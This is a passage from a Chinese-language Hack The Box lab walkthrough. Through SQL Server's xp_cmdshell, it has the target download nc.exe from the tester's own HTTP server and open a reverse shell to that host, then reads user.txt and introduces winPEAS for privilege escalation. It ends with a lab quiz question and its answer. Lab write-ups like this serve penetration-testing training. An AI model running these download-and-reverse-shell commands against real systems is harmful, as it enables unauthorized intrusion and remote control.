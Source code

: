 使靶机下载nc

```
EXEC xp_cmdshell "powershell -c cd C:\users\sql_svc\Downloads; wget http://10.10.14.118:8000/nc.exe -outfile nc.exe"
```

使靶机运行nc

```
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.118 5566"
```

![image-20230607231802913](图片/image-20230607231802913.png)

nc监听已经上线，执行一下whoami

![image-20230607232013675](图片/image-20230607232013675.png)

进入到桌面使用windows命令type查看user.txt

```
type user.txt
```

![image-20230607232822764](图片/image-20230607232822764.png)



用户权限提升

对于特权升级，我们将使用一个名为winPEAS的工具，它可以自动化目标系统中的大部分枚举过程。您可以在HTB学院模块[Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)中找到更多关于枚举特权升级路径的Windows系统的信息。

可以从[这里](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)下载winpeas。我们将通过再次使用Python HTTP服务器将其传输到目标系统

任务 6

可以使用什么脚本来搜索可能的路径以提升 Windows 主机上的权限？

winpeas

